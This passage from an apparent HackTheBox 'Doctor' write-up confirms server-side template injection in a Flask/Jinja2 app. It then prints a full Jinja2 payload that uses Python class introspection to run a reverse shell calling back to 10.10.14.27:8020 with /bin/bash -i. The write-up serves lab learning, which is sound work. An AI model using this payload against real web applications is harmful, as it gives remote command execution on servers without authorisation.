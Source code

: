 ![ssti2](/assets/img/Posts/Doctor/ssti2.png)

Going nowhere I stumbled upon the archive page again where we can see something really interesting:

![ssti3](/assets/img/Posts/Doctor/ssti3.png)

Apparently our SSTI did work for payloads `{{4*4}}` and `{{7*'7'}}` which confirms the template engine running is either Jinja2 which is the default engine for Flask or it can Twig.

#### Reverse Shell

Now that we are certain of SSTI we can grab the [**remote code execution payload**](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset) from PayloadsAllTheThings and modify it with our IP/Port and changing the subprocess call to `/bin/bash -i` to drop us a reverse shell:

```shell
cfx:  ~/Documents/htb/doctor
→ cat ssti-payload
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.27\",8020));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```
Inputting the above payload inside title and once posted, refreshing the `http://doctors.htb/archive` page drops us a reverse shell:
